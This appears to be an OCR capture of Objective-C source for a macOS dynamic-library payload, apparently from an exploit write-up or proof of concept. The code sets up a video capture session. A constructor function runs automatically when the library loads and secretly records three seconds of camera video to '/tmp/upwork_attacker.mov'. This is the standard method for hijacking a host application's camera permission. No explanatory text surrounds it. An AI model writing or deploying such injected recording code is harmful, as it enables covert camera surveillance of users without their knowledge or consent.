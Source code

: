 ```objc

    AVCaptureDevice *videoDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeVideo];
    NSError *error;
    self.videoDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:videoDevice error:&error];

    if (error) {
        NSLog(@"Error setting up video device input: %@", [error localizedDescription]);
        return;
    }

    if ([self.captureSession canAddInput:self.videoDeviceInput]) {
        [self.captureSession addInput:self.videoDeviceInput];
    }

    self.movieFileOutput = [[AVCaptureMovieFileOutput alloc] init];

    if ([self.captureSession canAddOutput:self.movieFileOutput]) {
        [self.captureSession addOutput:self.movieFileOutput];
    }
}

- (void)startRecording {
    [self.captureSession startRunning];
    NSURL *outputFileURL = [NSURL fileURLWithPath:@"/tmp/upwork_attacker.mov"];
    [self.movieFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
    NSLog(@"Recording started");
}

- (void)stopRecording {
    [self.movieFileOutput stopRecording];
    [self.captureSession stopRunning];
    NSLog(@"Recording stopped");
}

#pragma mark - AVCaptureFileOutputRecordingDelegate

- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
      fromConnections:(NSArray<AVCaptureConnection *> *)connections
                error:(NSError *)error {
    if (error) {
        NSLog(@"Recording failed: %@", [error localizedDescription]);
    } else {
        NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
    }
}
@end

__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {
    VideoRecorder *videoRecorder = [[VideoRecorder alloc] init];

    [videoRecorder startRecording];
    [NSThread sleepForTimeInterval:3.0];
    [videoRecorder stopRecording];

    [[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
}
```
